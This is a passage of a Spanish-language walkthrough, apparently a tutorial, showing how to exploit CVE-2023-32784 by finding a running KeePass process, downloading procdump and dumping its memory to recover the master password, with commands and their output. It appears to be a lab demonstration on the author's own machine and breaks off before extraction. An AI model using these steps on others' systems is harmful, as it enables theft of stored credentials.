 Y veremos que nos la saco practicamente, pero de este resultado se puede intuir que es `secretpassword`.

### Version Terminal

Cuando el `keepass` este activo, podremos filtrar los proceso que se estan corriendo con el siguiente comando:

```powershell
tasklist | findstr KeePass
```

Info:

```
KeePass.exe                   9556 Console                    1   259.032 KB
```

Por lo que vemos el `PID` del `keepass` es el `9556`, por lo que nos descargaremos el siguiente archivo:

URL = [Download procdump](https://download.sysinternals.com/files/Procdump.zip)

Lo descomprimiremos y moveremos el ejecutable llamado `procdump64.exe` a la carpeta `keepass-password-dumper-main` y desde la terminal estando dentro de la carpeta pondremos lo siguiente para realizar un volcado del `keepass`:

```powershell
.\procdump64.exe -ma 9556 KeePass.dmp
```

Info:

```
ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[14:24:12] Dump 1 initiated: C:\Users\clipd\Desktop\CVE-2023-32784\keepass-password-dumper-main\KeePass.dmp
[14:24:12] Dump 1 writing: Estimated dump file size is 260 MB.
[14:24:12] Dump 1 complete: 260 MB written in 0.4 seconds
[14:24:13] Dump count reached.
```

Vemos que se ha realizado correctamente y si vamos a ver si esta el archivo, veremos lo siguiente:

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se ha realizado correctamente, por lo que ya podremos seguir con el proceso para intentar `dumpear` la contraseña.
